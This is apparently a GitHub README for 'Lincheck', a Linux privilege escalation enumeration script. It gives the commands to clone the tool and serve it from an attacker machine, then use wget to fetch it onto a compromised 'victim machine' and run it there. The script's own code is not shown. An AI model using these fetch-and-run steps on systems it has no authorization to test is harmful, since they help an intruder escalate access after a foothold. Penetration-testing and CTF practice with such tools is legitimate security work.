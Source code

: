 # Lincheck
This is a linux privilledge escilation checker tool that checks for common linux priviledge escilation techniques.

Once you have get a initial foothold on a target machine than you can transfer this linux script on to the victim machine with python http server.

<h2>In Your Attacking Machine</h2> 

<code>git clone https://github.com/Vivek170952/Lincheck.git </code></br>

<code>cd Lincheck </code></br>

<code>python -m http.server 4444 </code></br>

<h2>In Your Victim Machine</h2>

<code>wget http://YOUR-IP:4444/linprivcheck.sh  </code></br>

<code>chmod +x linprivcheck.sh </code></br>
<code>./linprivcheck.sh</code></br>

This tool will save your lots of time inenumeration of machine and gives result in a good format.


https://user-images.githubusercontent.com/87767132/233546141-82fea8cb-db3a-4540-98c8-cb48c29588e5.mp4

